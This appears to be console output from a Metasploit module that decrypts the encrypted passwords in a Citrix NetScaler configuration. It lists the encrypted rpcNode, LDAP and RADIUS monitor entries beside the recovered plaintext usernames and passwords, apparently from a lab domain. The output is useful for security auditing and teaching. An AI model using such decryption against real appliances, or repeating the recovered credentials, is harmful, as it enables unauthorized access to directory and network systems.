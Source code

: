 ```
[+] User: ldap@cesium137.io
[+] Pass: Gr33n3gg$
[*] Config line:
set ns rpcNode 192.168.10.14 -password 2634fa338c457cb32fdf245873874a9b8fcd7128f6534641f49ea650e9f0974b -encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35 -srcIP 192.168.10.14
[+] Plaintext: SamIAm!
[*] Config line:
set ns rpcNode 192.168.10.15 -password 6955e686fc5dd3beee5013dad0e0fa6510a56029b52cc7d7ed15082a60ec6ce4 -encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35 -srcIP 192.168.10.14
[+] Plaintext: SamIAm!
[*] Config line:
add lb monitor mon_ldaps LDAP -scriptName nsldap.pl -dispatcherIP 127.0.0.1 -dispatcherPort 3013 -password cc1f6bb054f5d63d5eb871fdd36ff573f3343c1e0238965682460c6f084d1e14-encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35 -LRTM DISABLED -secure YES -baseDN "DC=cesium137,DC=io" -bindDN ldap@cesium137.io -filter CN=builtin -devno 13862
[+] User: ldap@cesium137.io
[+] Pass: Gr33n3gg$
[*] Config line:
add lb monitor mon_ldap LDAP -scriptName nsldap.pl -dispatcherIP 127.0.0.1 -dispatcherPort 3013 -password 5c35e0aa5c3d999e9ff10de1fa32910f9ac28b1ee8824c2301ac964e1f5f987e-encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35 -LRTM DISABLED -destPort 636 -secure YES -baseDN "DC=cesium137,DC=io" -bindDN ldap@cesium137.io -filter CN=builtin -devno 13863
[+] User: ldap@cesium137.io
[+] Pass: Gr33n3gg$
[*] Config line:
add lb monitor mon-radius RADIUS -respCode 2 -userName ldap -password fda3a1c5990558d4bfae059f27191f4c91a2dfa826d7318db287e109f5da39f9 -encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35  -LRTM DISABLED -resptimeout 4 -destPort 1812 -devno 13864
[+] User: ldap
[+] Pass: Gr33n3gg$
[*] Auxiliary module execution completed
msf6 auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > 
```
